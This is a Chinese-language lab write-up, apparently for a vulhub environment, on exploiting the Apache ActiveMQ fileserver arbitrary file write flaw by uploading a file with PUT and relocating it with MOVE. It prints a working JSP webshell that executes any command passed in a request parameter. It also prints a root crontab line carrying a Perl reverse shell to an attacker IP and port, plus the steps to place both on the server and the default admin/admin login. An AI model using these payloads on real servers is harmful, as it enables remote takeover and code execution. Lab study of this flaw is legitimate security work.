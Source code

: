 # ActiveMQ任意文件写入漏洞

###### by ADummy

### 0x00利用路线

​			Burpsuite构造包上传webshell--->Burpsuite构造包移动文件--->访问webshell--->代码执行

### 0x01漏洞介绍

​			本漏洞出现在fileserver应用中，漏洞原理其实非常简单，就是fileserver支持写入文件（但不解析jsp），同时支持移动文件（MOVE请求）。所以，我们只需要写入一个文件，然后使用MOVE请求将其移动到任意位置，造成任意文件写入漏洞。

​			ActiveMQ的web控制台分三个应用，admin、api和fileserver，其中admin是管理员页面，api是接口，fileserver是储存文件的接口；admin和api都需要登录后才能使用，fileserver无需登录。fileserver是一个RESTful API接口，我们可以通过GET、PUT、DELETE等HTTP请求对其中存储的文件进行读写操作，其设计目的是为了弥补消息队列操作不能传输、存储二进制文件的缺陷，但后来发现：

> 1.其使用率并不高
>
> 2.文件操作容易出现漏洞

​			所以，ActiveMQ在**5.12.x~5.13.x**版本中，已经默认关闭了fileserver这个应用（你可以在conf/jetty.xml中开启之）；在**5.14.0**版本以后，彻底删除了fileserver应用。在测试过程中，可以关注ActiveMQ的版本，避免走弯路。

​		ps:摘自xssle师傅

### 0x02漏洞复现

**三种方法：**

**1.webshell**

**2.编写crontab自动化弹shell**

**3.编写jetty.xml或jar，覆盖jetty.xml，删除admin和api的登录限制，然后编写webshell(未测试)。**

**在某些情况下，jetty.xml和jar的所有者是Web容器的用户，因此编写crontab的成功率更高。**

**webshell:**

```
<%
    if("023".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
```

**查看绝对路径界面http://your-ip:8161/admin/test/systemProperties.jsp**

**登录名/密码  admin/admin**

​			**默认页面**

![ActiveMQ任意文件写入_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ActiveMQ任意文件写入_1.jpg)

​			**绝对路径页面**

![ActiveMQ任意文件写入_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ActiveMQ任意文件写入_2.jpg)

​			**上传webshell**

![ActiveMQ任意文件写入_3](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ActiveMQ任意文件写入_3.jpg)

​			**移动webshell到 /api/shell.jsp**

![ActiveMQ任意文件写入_4](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ActiveMQ任意文件写入_4.jpg)

​			**访问webshell(需要登录)，命令执行**

![ActiveMQ任意文件写入_5](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ActiveMQ任意文件写入_5.jpg)

​			**编写crontab自动化弹shell**

```
*/1 * * * * root /usr/bin/perl -e 'use Socket;$i="192.168.15.128";$p=8888;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

​			**上传crontab**

![ActiveMQ任意文件写入_6](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ActiveMQ任意文件写入_6.jpg)

​			**移动crontab到/etc/cron.d/root**

![ActiveMQ任意文件写入_8](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ActiveMQ任意文件写入_8.jpg)

​			**反弹shell**

![ActiveMQ任意文件写入_7](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ActiveMQ任意文件写入_7.jpg)

### 0x03参考资料

https://www.freebuf.com/vuls/213760.html